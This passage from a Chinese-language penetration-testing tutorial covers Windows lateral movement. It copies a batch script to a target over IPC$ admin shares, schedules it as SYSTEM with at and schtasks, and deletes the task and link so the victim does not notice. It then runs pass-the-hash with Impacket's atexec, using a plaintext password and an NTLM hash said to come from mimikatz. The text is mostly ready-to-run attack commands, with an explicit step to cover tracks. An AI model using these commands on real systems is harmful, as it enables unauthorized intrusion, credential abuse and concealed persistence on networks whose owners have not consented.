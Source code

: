 2. 拷贝要执行的命令脚本到目标主机

   ```
   相关命令：
   dir \\xx.xx.xx.xx\C$\ # 查看文件列表
   copy \\xx.xx.xx.xx\C$\1.bat 1.bat # 下载文件
   copy 1.bat \\xx.xx.xx.xx\C$ # 复制文件
   net use \\xx.xx.xx.xx\C$\1.bat /del # 删除 IPC
   net view xx.xx.xx.xx # 查看对方共享
   
   例子：
   copy add.bat \\192.168.3.21\c$
   ```

3. 查看目标时间，创建计划任务（at、schtasks）定时执行拷贝到的脚本（计划任务是以`system`执行）

   ```
   at用于windowserver2008和以前
   at \\192.168.3.21 12:15 c:\add.bat
   
   schtasks用于windowserver2012和之后
   schtasks /create /s 192.168.3.32 /ru "SYSTEM" /tn adduser /sc DAILY /tr c:\add.bat /F
   运行 adduser 任务
   schtasks /run /s 192.168.3.32 /tn adduser
   ```

4. 删除 IPC 链接（不让对方发现）

   ```
   schtasks /delete /s 192.168.3.32 /tn adduser /f
   ```



### 明文HASH传递

我们通过mimikatz的扫描获得了HASH密码，就能使用HASH密码去渗透其他主机，下面为能连接的方法

#### atexec

atexec是Impacket网络协议工具包中的一个工具

下载地址：

```
https://gitee.com/RichChigga/impacket-examples-windows
https://github.com/SecureAuthCorp/impacket
```

Impacket网络协议工具包详细介绍看[该文章](https://www.freebuf.com/sectool/175208.html)

明文连接：

```
atexec.exe ./administrator:Admin12345@192.168.3.21 "whoami"
```

HASH连接：

```
atexec.exe -hashes :ccef208c6485269c20db2cad21734fe7 ./administrator@192.168.3.21 "whoami"
```

